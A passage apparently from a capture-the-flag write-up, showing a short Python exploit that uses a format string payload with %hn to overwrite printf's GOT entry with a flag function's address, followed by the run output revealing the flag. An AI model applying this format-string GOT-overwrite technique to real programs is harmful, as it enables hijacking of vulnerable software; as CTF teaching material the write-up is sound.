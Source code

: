```python
printf_got = 0x404018
flag_plt = 0x4011b6

payload = '%{}x%{}$hn '.format(str(flag_plt), offset)
exploit = payload + p64(printf_got)[:3]

#: Send payload
p.sendline(exploit)
p.interactive()
```
#### Run the script to get the flag!
```
$ python exploit.py
[...]
ea27fc00 @@ somewhere else. 
actf{limited_edition_flag}
```


